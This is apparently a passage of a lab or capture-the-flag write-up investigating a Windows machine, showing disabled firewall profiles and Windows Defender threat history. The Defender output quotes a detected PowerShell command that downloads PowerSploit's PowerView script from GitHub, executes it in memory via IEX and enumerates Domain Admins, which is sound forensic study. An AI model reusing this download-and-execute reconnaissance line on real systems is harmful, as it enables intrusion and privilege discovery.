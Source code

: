 Windows Defender seems to be running but `realtimeprotection` is disabled, let's check the host based firewall:

```
PS C:\Users\kkidd> Get-NetFirewallProfile | Format-Table Name, Enabled

Name    Enabled
----    -------
Domain    False
Private   False
Public    False
```

Host-Based Firewall is disabled.

#### Second Question

Let's use the following command:

```powerhsell
Get-MpThreat | Format-List *
```

We get:

```
CategoryID            : 8
DidThreatExecute      : False
IsActive              : False
Resources             : {CmdLine:_C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1'); Get-NetGroupMember 'Domain Admins',
                        internalCmdLine:_i AQAAAA2wA4AAAAAAAAAAAF8Q02fXQQEAbRa5PR40vlvAdUq6bbN3ro51dwpUcm9qYW46UG93ZXJTaGVsbC9Qb3dlcnNwbG9pdC5HAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA== 57 10 C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
                        powershell IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1'); Get-NetGroupMember 'Domain Admins'}
RollupStatus          : 1
SchemaVersion         : 1.0.0.0
SeverityID            : 5
ThreatID              : 2147725325
ThreatName            : Trojan:PowerShell/Powersploit.G
TypeID                : 0
PSComputerName        :
CimClass              : ROOT/Microsoft/Windows/Defender:MSFT_MpThreat
CimInstanceProperties : {CategoryID, DidThreatExecute, IsActive, Resources...}
CimSystemProperties   : Microsoft.Management.Infrastructure.CimSystemProperties

CategoryID            : 34
DidThreatExecute      : False
IsActive              : False
Resources             : {file:_C:\Users\kkidd\Desktop\PowerView.ps1, containerfile:_C:\Users\kkidd\Desktop\PowerView.ps1, file:_C:\Users\kkidd\Desktop\PowerView.ps1->(UTF-8)}
RollupStatus          : 1
SchemaVersion         : 1.0.0.0
SeverityID            : 4
ThreatID              : 2147755688
ThreatName            : HackTool:PowerShell/PowerView
TypeID                : 0
PSComputerName        :
CimClass              : ROOT/Microsoft/Windows/Defender:MSFT_MpThreat
CimInstanceProperties : {CategoryID, DidThreatExecute, IsActive, Resources...}
CimSystemProperties   : Microsoft.Management.Infrastructure.CimSystemProperties

CategoryID            : 34
DidThreatExecute      : True
IsActive              : False
```